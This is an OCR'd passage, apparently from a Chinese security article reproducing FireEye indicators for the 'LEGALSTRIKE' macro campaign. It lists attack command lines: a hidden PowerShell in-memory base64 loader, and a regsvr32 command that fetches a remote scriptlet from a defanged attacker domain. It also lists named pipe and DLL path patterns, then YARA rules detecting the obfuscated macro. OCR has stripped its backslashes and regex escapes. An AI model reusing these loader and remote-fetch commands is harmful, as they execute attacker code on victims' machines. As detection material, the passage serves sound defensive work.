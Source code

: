 **进程、管道和文件路径**

Process arguments, named pipes, and file paths



```
npowershell.exe -NoP -NonI -W Hidden -Command "Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String("&lt;base64 blob&gt;")
regsvr32.exe /s /n /u /i:hxxps://lyncdiscover.2bunny.com/Autodiscover scrobj.dll
\&lt;ip&gt;pipemsagent_&lt;4 digits&gt;
C:Documents and Settings&lt;user&gt;Local SettingsTempK5om.dll (4 character DLL based on URI of original GET request)
```

[**Yara**](http://www.freebuf.com/articles/system/26373.html)**规则**

```
rule FE_LEGALSTRIKE_MACRO {
  meta:version=".1"
  filetype="MACRO"
  author="Ian.Ahl@fireeye.com @TekDefense"
  date="2017-06-02"
  description="This rule is designed to identify macros with the specific encoding used in the sample 30f149479c02b741e897cdb9ecd22da7."
strings:
  // OBSFUCATION
  $ob1 = "ChrW(114) &amp; ChrW(101) &amp; ChrW(103) &amp; ChrW(115) &amp; ChrW(118) &amp; ChrW(114) &amp; ChrW(51) &amp; ChrW(50) &amp; ChrW(46) &amp; ChrW(101)" ascii wide
  $ob2 = "ChrW(120) &amp; ChrW(101) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(115) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(110) &amp; ChrW(32) &amp; ChrW(47)" ascii wide
  $ob3 = "ChrW(117) &amp; ChrW(32) &amp; ChrW(47) &amp; ChrW(105) &amp; ChrW(58) &amp; ChrW(104) &amp; ChrW(116) &amp; ChrW(116) &amp; ChrW(112) &amp; ChrW(115)" ascii wide
  $ob4 = "ChrW(58) &amp; ChrW(47) &amp; ChrW(47) &amp; ChrW(108) &amp; ChrW(121) &amp; ChrW(110) &amp; ChrW(99) &amp; ChrW(100) &amp; ChrW(105) &amp; ChrW(115)" ascii wide
  $ob5 = "ChrW(99) &amp; ChrW(111) &amp; ChrW(118) &amp; ChrW(101) &amp; ChrW(114) &amp; ChrW(46) &amp; ChrW(50) &amp; ChrW(98) &amp; ChrW(117) &amp; ChrW(110)" ascii wide
  $ob6 = "ChrW(110) &amp; ChrW(121) &amp; ChrW(46) &amp; ChrW(99) &amp; ChrW(111) &amp; ChrW(109) &amp; ChrW(47) &amp; ChrW(65) &amp; ChrW(117) &amp; ChrW(116)" ascii wide
  $ob7 = "ChrW(111) &amp; ChrW(100) &amp; ChrW(105) &amp; ChrW(115) &amp; ChrW(99) &amp; ChrW(111) &amp; ChrW(118) &amp; ChrW(101) &amp; ChrW(114) &amp; ChrW(32)" ascii wide
  $ob8 = "ChrW(115) &amp; ChrW(99) &amp; ChrW(114) &amp; ChrW(111) &amp; ChrW(98) &amp; ChrW(106) &amp; ChrW(46) &amp; ChrW(100) &amp; ChrW(108) &amp; ChrW(108)" ascii wide
  $obreg1 = /(w{5}s&amp;s){7}w{5}/
  $obreg2 = /(Chrw(d{1,3})s&amp;s){7}/
  // wscript
  $wsobj1 = "Set Obj = CreateObject("WScript.Shell")" ascii wide
  $wsobj2 = "Obj.Run " ascii wide
 
condition:
   (
    (
       (uint16(0) != 0x5A4D)
    )
    and
    (
       all of ($wsobj*) and 3 of ($ob*)
       or
       all of ($wsobj*) and all of ($obreg*)
    )
  )
}
 
rule FE_LEGALSTRIKE_MACRO_2 {
  meta:version=".1"
  filetype="MACRO"
```